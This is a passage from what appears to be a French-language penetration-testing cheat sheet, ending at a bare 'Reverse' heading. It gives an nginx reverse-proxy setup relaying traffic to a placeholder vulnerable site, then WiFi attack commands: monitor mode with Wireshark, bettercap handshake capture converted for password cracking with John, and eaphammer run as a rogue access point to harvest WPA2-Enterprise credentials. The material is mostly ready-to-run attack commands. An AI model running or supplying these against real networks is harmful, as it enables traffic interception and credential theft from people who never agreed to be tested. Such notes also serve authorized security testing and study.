 ```bash
sudo vim etc/nginx/sites-available/default
```

```
server {
   ...
         # remplacer location /
	location / {
                proxy_pass http://vulnerable-site.org ; 
                proxy_set_header X-Forwarded-For $remote_addr ;
	}
   ...
}
```

```bash
sudo systemctl restart nginx
firefox $(ip a s eth0 | awk -F'[/ ]+' '/inet[^6]/{print $3}')/page #http://vulnerable-site.org/page
```

### Wifi

`Arp Spoofing`

- https://security.stackexchange.com/questions/225985/is-there-any-point-of-arp-spoofing-on-a-wifi-network

```bash
sudo ip l set wlanx down
sudo iw wlanx set monitor none
sudo ip l set wlanx up
sudo iw wlanx info
sudo wireshark&
```

- https://dl.aircrack-ng.org/breakingwepandwpa.pdf

`WPA2 - PSK`

```bash
sudo docker run -it --privileged --rm --net=host bettercap/bettercap -iface wlanx
#wifi.recon help

wpapcap2john bettercap-wifi-handshakes.pcap
```

- https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/

`WPA2 - EAP`

```bash
sudo python3 ./eaphammer –cert-wizard
sudo python3 ./eaphammer -i wlan6 --creds -e "xxx" -b xx:xx:xx:xx:xx:xx #BSSID /MAC
```

## Reverse
